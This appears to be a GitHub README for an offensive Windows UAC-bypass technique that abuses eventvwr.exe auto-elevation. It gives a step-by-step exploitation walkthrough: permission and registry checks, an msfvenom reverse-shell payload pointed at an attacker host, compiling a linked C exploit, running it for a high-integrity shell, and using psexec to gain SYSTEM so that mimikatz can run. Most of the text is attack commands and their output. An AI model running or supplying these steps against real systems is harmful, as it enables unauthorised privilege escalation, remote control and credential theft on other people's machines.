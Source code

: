 # UAC-bypass

If you're in Administrator group but are on Medium Mandatory Level, you can't run some commands and tool due to User Account Control. One should need to bypass UAC to get on High Mandatory Level, from there we can become SYSTEM. With UAC enabled we can't run tools like mimikatz, and sometime commands like changing administrator password etc.

# Exploitation

## Check for Permissions
```markdown
whoami /all
```
![OnPaste 20220608-165652](https://user-images.githubusercontent.com/106917304/172605390-b7dfb995-c707-45cd-be78-9c7d2f23c4a5.png)

We're in administrator group and on Medium Mandatory Level.
## Check For UAC is Enabled
```markdown
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System 
```
![OnPaste 20220608-170237](https://user-images.githubusercontent.com/106917304/172606326-7b52b703-d024-4c97-ad19-29105d509a2f.png)

EnableLUA tells us whether UAC is enabled. If 0 we don’t need to bypass it and we can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys 
PromptSecureDesktop is on.


First we ensure that eventvwr.exe exists and is set to autoelevate to High integrity.
```markdown
where /r C:\\windows eventvwr.exe
```
![OnPaste 20220608-170657](https://user-images.githubusercontent.com/106917304/172607955-1ffda1af-2254-4a7e-86a8-7ee739529943.png)


Upload [strings64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/strings64.exe) to target machine.
```markdown
strings64.exe -accepteula C:\\Windows\\System32\\eventvwr.exe | findstr /i autoelevate
```

![OnPaste 20220608-171241](https://user-images.githubusercontent.com/106917304/172608066-79407888-b78d-4484-b071-6fed6d09ca48.png)

We can see the value is set to True.

## Making of an Exploit

Now on Atacker machine generate msfvenom payload:
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 -f exe > shell.exe
```
we gonna use [eventvwr-bypassuac.c](https://github.com/k4sth4/UAC-bypass/blob/main/eventvwr-bypassuac.c)


NOTE: Remember the name of the reverse shell that we generated with msfvenom is shell.exe. If you have given another name to payload, must change the name in C script and both our shell.exe and eventvwr-bypassuac.c needs to be on same directory on attacker vm.

We need to compile the C script to get our exploit.
```markdown
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
```

![OnPaste 20220608-172613](https://user-images.githubusercontent.com/106917304/172610444-fbd93a1f-09bf-4a31-b099-0d9f371391b3.png)


## Reverse Shell

Now upload shell.exe and eventvwr-bypassuac-64.exe to target machine and execute eventvwr-bypassuac-64.exe.  
```markdown
.\eventvwr-bypassuac-64.exe 
```
![OnPaste 20220608-173002](https://user-images.githubusercontent.com/106917304/172611083-5c94570f-2d4b-4eef-a7a8-5ea6308fd890.png)

Got Reverse Shell.

![OnPaste 20220608-173131](https://user-images.githubusercontent.com/106917304/172611380-ad7daa97-e036-4d7a-9717-3c8740496d66.png)

We can see that now we are on High Mandatory Level.

![OnPaste 20220608-173341](https://user-images.githubusercontent.com/106917304/172611822-9f2d5991-d494-40a2-9815-ef76f572cfa4.png)

Now we can run mimikatz!

If you want SYSTEM shell we can now become SYSTEM with [psexec64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/psexec64.exe)

Upload psexec64.exe and shell.exe on target machine with High Mandatory Level. Now execute psexec64.exe with shell.exe.
```markdown
.\psexec64.exe -i -accepteula -d -s C:\\programdata\\shell.exe
```

After that we'll get a reverse shell as SYSTEM.

